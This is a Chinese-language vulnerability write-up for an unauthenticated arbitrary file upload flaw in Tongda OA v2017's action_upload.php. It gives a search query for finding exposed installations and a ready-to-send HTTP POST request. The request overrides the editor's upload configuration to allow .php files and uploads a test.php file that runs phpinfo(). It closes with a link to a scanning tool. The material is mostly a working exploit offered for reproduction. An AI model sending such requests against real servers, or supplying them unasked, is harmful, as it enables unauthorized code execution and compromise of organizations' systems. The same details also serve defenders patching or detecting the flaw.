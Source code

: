 # 通达OA v2017 action_upload.php 任意文件上传漏洞

# 通达OA v2017 action_upload.php 任意文件上传漏洞

## 漏洞描述

通达OA v2017 action_upload.php 文件过滤不足且无需后台权限，导致任意文件上传漏洞

## 漏洞影响

```
通达OA v2017
```

## 网络测绘

```
app="TDXK-通达OA" 
```

## 漏洞复现

访问获取版本信息

![img](/images/202202091053148.png)

发送请求包上传任意文件

```php
POST /module/ueditor/php/action_upload.php?action=uploadfile HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 893
Content-Type: multipart/form-data; boundary=---------------------------55719851240137822763221368724
X_requested_with: XMLHttpRequest
Accept-Encoding: gzip

-----------------------------55719851240137822763221368724
Content-Disposition: form-data; name="CONFIG[fileFieldName]"

ffff
-----------------------------55719851240137822763221368724
Content-Disposition: form-data; name="CONFIG[fileMaxSize]"

1000000000
-----------------------------55719851240137822763221368724
Content-Disposition: form-data; name="CONFIG[filePathFormat]"

tcmd
-----------------------------55719851240137822763221368724
Content-Disposition: form-data; name="CONFIG[fileAllowFiles][]"

.php
-----------------------------55719851240137822763221368724
Content-Disposition: form-data; name="ffff"; filename="test.php"
Content-Type: application/octet-stream

<?php phpinfo();?>
-----------------------------55719851240137822763221368724
Content-Disposition: form-data; name="mufile"

submit
-----------------------------55719851240137822763221368724--
```

![img](/images/202202091053293.png)

再访问上传的文件 

![img](/images/202202091053249.png)

利用工具：https://github.com/Fu5r0dah/TongdaScan_go


